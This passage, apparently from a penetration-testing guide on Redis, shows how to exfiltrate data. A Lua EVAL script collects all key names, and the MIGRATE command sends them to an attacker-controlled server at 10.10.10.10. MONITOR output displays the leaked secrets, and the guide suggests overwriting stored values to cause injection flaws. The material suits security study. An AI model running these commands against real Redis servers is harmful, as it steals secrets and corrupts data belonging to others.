 Then with `redis-cli` locally you can view all data, and using `MONITOR` even in real-time!

We will trigger some commands on the server that will try to send a key and value to our new server. Try it with the `key1` payload shown above, and the callback with content should appear:

<pre class="language-sh"><code class="lang-sh">> MONITOR
1694377609.839835 [0 127.0.0.1:60688] "SELECT" "0"
<strong>1694377609.839844 [0 127.0.0.1:60688] "RESTORE" "key1" "0" "\x00\x04test\x0b\x00\xe8O\x12\xd3\x91nY\xcc"
</strong>> GET key1
<strong>"test"
</strong></code></pre>

While it is a good confirmation of the vulnerability, we can try to exploit it to gain more impact. Instead of leaking our own key, we can leak some keys that it stores, but how do we find the names of the keys? This is where the powerful Lua scripting ([`EVAL`](https://redis.io/commands/eval/)) can come into play. We will list and write all the keys to a single value, which we can leak through the `MIGRATE` method:

{% code title="Lua" overflow="wrap" %}
```lua
local keys = redis.call('KEYS', '*')
local keyList = table.concat(keys, ',')
redis.call('SET', 'output', keyList)
return keyList
```
{% endcode %}

This will run the `KEYS *` command (or any command you like), and concat the results with a `,` comma, and finally save this list to a key named `output` which we can leak:

{% code title="Redis: List and leak keys" %}
```powershell
EVAL "local keys = redis.call('KEYS', '*') local keyList = table.concat(keys, ',') redis.call('SET', 'output', keyList) return keyList" 0
MIGRATE 10.10.10.10 6379 output 0 5000
```
{% endcode %}

```sh
> monitor
1694378430.919743 [0 127.0.0.1:43416] "RESTORE" "output" "0" "\x00\tsecret1,secret2\x0b\x00\xbd\xaeEG\x1b\xb8d\xd7"
> get output
"secret1,secret2"
```

Remember that you can now always leak a key by name using this method, and find all the secrets even with random names. Also, remember that more commands can be executed like this to enumerate the instance as needed.&#x20;

Then when you finally understand _how_ the system is used, you can try to **exploit it** by (over)writing data in the store. This can cause all kinds of unexpected vulnerabilities as developers often trust data coming from their own Redis store, causing injection, deserialization, or other access vulnerabilities on the main application. This can simply be done with the `SET` commands blindly.

## ACLs
